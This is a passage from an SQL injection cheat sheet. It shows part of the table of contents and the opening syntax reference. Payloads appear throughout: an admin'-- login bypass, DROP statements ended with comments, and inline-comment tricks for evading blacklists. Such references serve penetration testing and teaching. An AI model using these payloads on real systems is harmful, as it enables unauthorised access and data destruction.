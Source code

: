         -   [If Statement SQL Injection Attack Samples](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#SampleIfStatements)
    5.  [Using Integers](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#UsingIntegers)
    6.  [String Operations](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#StringOperations)
        -   [String Concatenation](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#StringConcat)
    7.  [Strings without Quotes](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#StringwithoutQuotes)
        -   [Hex based SQL Injection Samples](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#HexbasedSamples)
    8.  [String Modification & Related](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#StringModification)
    9.  [Union Injections](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#UnionInjections)
        -   [UNION – Fixing Language Issues](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#UnionLanguageIssues)
    10.  [Bypassing Login Screens](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#ByPassingLoginScreens)
    11.  [Enabling xp_cmdshell in SQL Server 2005](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/#Enablecmdshell)
    12.  _Other parts are not so well formatted but check out by yourself, drafts, notes and stuff, scroll down and see._

## Syntax Reference, Sample Attacks and Dirty SQL Injection Tricks

### Ending / Commenting Out / Line Comments

#### Line Comments

**Comments out rest of the query.**  
Line comments are generally useful for ignoring rest of the query so you don’t have to deal with fixing the syntax.

-   `--` (SM)`  
    DROP sampletable;--  
      
    `
-   `#` (M)`  
    DROP sampletable;#`

##### Line Comments Sample SQL Injection Attacks

-   Username: `admin'--`
-   `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'  
    `This is going to log you as admin user, because rest of the SQL query will be ignored.

#### Inline Comments

**Comments out rest of the query by not closing them**  or you can use for  **bypassing blacklisting**, removing spaces, obfuscating and determining database versions.

-   `/*Comment Here*/`  (SM)
    -   `DROP/*comment*/sampletable`
    -   `DR/**/OP/*bypass blacklisting*/sampletable`
    -   `SELECT/*avoid-spaces*/password/**/FROM/**/Members`  
          